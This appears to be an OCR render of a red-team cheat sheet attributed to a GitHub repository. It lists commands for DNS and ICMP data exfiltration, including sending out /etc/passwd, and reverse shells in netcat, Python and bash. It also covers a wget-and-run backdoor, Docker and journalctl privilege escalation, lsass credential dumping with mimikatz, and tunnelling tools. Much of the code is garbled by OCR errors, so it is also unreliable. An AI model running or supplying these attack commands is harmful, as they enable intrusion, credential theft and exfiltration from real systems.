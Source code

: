 # Tips and Tricks


source : https://raw.githubusercontent.com/Mehdi0x90/Red-Team

## Data Transfer
### Transfer by ftp without direct access to the shell

* On victim:
```bash
#1. Hex encode the file to be transferred
   xxd -p secret file.hex
#2. Read in each line and do a DNS lookup
   forb in 'cat fole.hex '; do dig $b.shell.evilexample.com; done
```
* On attacker:
```bash
#1. Capture DNS exfil packets
   tcdpump -w /tmp/dns -s0 port 53 and host system.example.com
#2. Cut the exfilled hex from the DNS packet
   tcpdump -r dnsdemo -n | grep shell.evilexample.com | cut -f9 -d'
   cut -f1 -d'.' | uniq received. txt
#3. Reverse the hex encoding
   xxd -r -p received~.txt kefS.pgp
```

### Execution of the exfil command and transferring its information with icmp

* On victim (never ending 1 liner) :
```bash
stringz=cat /etc/passwd | od -tx1 | cut -c8- | tr -d " " | tr -d "\n";
counter=0; while (($counter = ${#stringZ})) ;do ping -s 16 -c l -p
${stringZ:$counter:16} 192.168.10.10 &&
counter=$( (counter+~6)) ;done
```

* On attacker (capture pac~ets to data.dmp and parse):
```bash
tcpdump -ntvvSxs 0 'icmp[0]=8' data.dmp
grep Ox0020 data.dmp | cut -c21- | tr -d " " | tr -d "\n" | xxd -r -p
```

### Open mail relay
```bash
telnet x.x.x.x 25
HELO x.x.x.x
MAIL FROM: me@you.com
RCPT TO: YOU@YOU.com
DATA
Thank You.
quit
```

## Reverse shell
* Netcat command (run on the attacker's system)
```bash
nc 10.0.0.1 1234 -e /bin/sh    #Linux reverse shell
nc 10.0.0.1 1234 -e cmd.exe    #Windows reverse shell
```

* Netcat command (-e may not be supported in some versions)
```bash
nc -e /bin/sh 10.0.0.1 1234
```

* Netcat command (when -e is not supported)
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/fl/bin/sh -i 2 &line l0.0.0.1 1234 /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.105 9999 >/tmp/f
```

* Python
```python
python -c 'import socket, subprocess, os; s=socket. socket (socket.AF_INET,
socket.SOCK_STREAM); s.connect( ("10.0.0.1",1234)); os.dup2 (s.fileno() ,0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

* Bash
```bash
bash -i & /dev/tcp/10.0.0.1/8080 0 &1
```

* Other way
```bash
wget hhtp:// server /backdoor.sh -O- | sh Downloads and runs backdoor.sh
```

## Privilege Escalation
* Privilege Escalation with Docker

You must be logged in with a user who is a member of the docker group.
```bash
docker run -v /root:/mnt -it ubuntu
```
OR
```bash
docker run --rm -it --privileged nginx bash
mkdir /mnt/fsroot
mount /dev/sda /mnt/fsroot
```

* Privilege Escalation with journalctl

The journalctl launcher must be run with more privileges such as sudo.
```bash
journalctl
!/bin/sh
```
OR
```bash
sudo journalctl
!/bin/sh
```

## Receiving the lsass process and extracting information with mimikatz
```bash
procdump.exe -accepteula -64 -ma lsass.exe  lsass.dmp
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords f
```

## Extracting information in memory using the mimikatz plugin in volatility
```bash
volatility — plugins=/usr/share/volatility/plugins — profile=Win7SP0x86 -f halomar.dmp mimikatz
```

## Tunnel
* Fpipe - receiving information from port 1234 and transferring to port 80 2.2.2.2
```bash
fpipe.exe -l 1234 -r 80 2.2.2.2
```

* Socks.exe - Intranet scanning in Socks proxy

**On redirector (1.1.1.1):**
```bash
socks.exe -i1.1.1.1 -p 8C80
```

**On attacker:**
```bash
Modify /etc/proxjchains.conf:
Comment out: #proxy_dns
Comment out: #socks4a 127.0.0.1    9050
Add line: socks4    1.1.1.1    8080
Scan through socks proxy:
    proxychains nmap -PN -vv -sT -p 22,135,139,445 2.2.2.2
```

* Socat - receiving information from port 1234 and transferring to port 80 2.2.2.2
```bash
socat TCP4:LISTEN:1234 TCP4:2.2.2.2:80
```

* Create ssh without ssh service
```bash
./socat TCP-LISTEN:22,fork,reuseaddr TCP:172.10.10.11:22
```

* Stunnel - ssl encapsulated in nc tunnel (Windows & Linux)
  
**On attacker (client):**
```bash
#Modify /stunnel.conf
    clien = yes
    [netcat client]
    accept = 5555
    connect = -Listening IP-:4444

nc -nv 127.0.0.1 5555
```

**On victim (listening server)**
```bash
#Modify /stunnel.conf
    client = no
    [ne~cat server]
    accept = 4444
    connect = 7777

nc -vlp 7777
```

